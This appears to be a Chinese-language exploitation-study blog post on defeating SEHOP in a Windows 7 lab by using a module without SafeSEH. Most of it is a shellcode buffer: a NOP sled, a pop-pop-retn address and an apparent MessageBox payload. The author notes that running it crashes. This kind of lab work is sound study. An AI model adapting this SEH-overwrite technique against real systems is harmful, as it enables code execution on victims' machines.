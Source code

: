 ```yaml
---
layout:		post
title:		利用未启用SEHOP的模块
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 7 Ultimate sp0 x86  
>编译器: Visual Studio 2008、VC++ 6.0  
>调试器: OllyDbg 1.10  
>注意: 关闭系统DEP  
<!-- more -->


打开系统SEHOP

![](/assets/img/exploit/2017-12-31-break-sehop-by-armadilo/0x00.png)

参考SafeS.E.H这章, exe文件关掉DEP、ASLR, dll文件不作改动

#### 传送门: [利用未启用SafeS.E.H模块绕过SafeS.E.H](http://www.wooy0ung.me/exploit/2017/10/03/safeseh-break-byunsafe/)

修改shellcode

```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x12\x10\x12\x11"		//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09"				// mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x30\x75\x6e\x67\x68\x77\x6f\x6f\x79\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
```

将dll文件拖到CFF Explorer, 如下修改

![](/assets/img/exploit/2017-12-31-break-sehop-by-armadilo/0x01.png)

直接运行崩掉, 暂时不清楚什么原因

![](/assets/img/exploit/2017-12-31-break-sehop-by-armadilo/0x02.png)